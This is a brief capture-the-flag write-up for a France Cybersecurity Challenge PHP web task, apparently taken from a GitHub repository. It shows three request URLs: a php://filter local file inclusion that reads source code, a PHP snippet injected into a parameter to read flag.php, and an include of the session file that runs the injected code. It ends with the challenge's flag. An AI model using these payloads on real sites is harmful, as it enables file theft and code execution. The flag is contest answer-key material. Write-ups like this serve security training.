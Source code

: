 First step: exploit LFI to get the source code of index.php<br />
Then : 
```http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=php://filter/convert.base64-encode/resource=index.php```<br />

```http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=<?php echo file_get_contents('flag.php');?>```<br />

```http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=sessions/sess_<PHPSESSID```<br />

Source code: 


$flag="FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}";
